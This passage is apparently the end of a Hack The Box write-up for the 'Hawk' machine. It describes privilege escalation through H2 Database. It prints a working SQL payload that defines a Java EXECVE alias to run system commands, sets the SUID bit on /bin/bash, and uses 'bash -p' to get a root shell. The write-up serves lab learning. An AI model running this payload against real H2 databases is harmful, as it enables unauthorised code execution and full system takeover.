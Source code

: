In this case it is not necessary to use the `exploit`, to know a little more in depth the vulnerability that will allow me to escalate privileges, I read the resource that is shared with me in the exploit, **[Abusing H2 Database ALIAS](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html){:target="_blank"}**. I just read carefully the explanation and understand the concepts that are being explained and continue. It is only necessary to connect to **H2 Database** with a **JDBC URL** that **I create** and inject a query that they share with me in the web page, I try to get a command execution, and as I already see on the screen the output I am looking for, it is only necessary to change in the victim machine the SUID permission to the `bash`. Then from console and in the victim machine I obtain a `bash` shell with the privileges of its owner, `root`. I was able to **rooted** this beautiful box of **Hack The Box**.

```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;

CALL EXECVE('id')

CALL EXECVE('whoami')

CALL EXECVE('chmod u+s /bin/bash')
```

```bash
bash -p
```

<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_39.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_40.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_41.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_42.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

> I always like these machines where you learn or reinforce concepts, although **Drupal** had a very old version with well known vulnerabilities, it gives you the overview of how to start looking for new **CVE** and exploit for the latest versions. Also with **H2 Database** there should be new ways to enumerate or even exploit it. I think it is time to keep practicing a lot and never lose the motivation to learn something new, there is a long way to go, I kill the box and go my way.

```bash
./htbExplorer -k Hawk
```
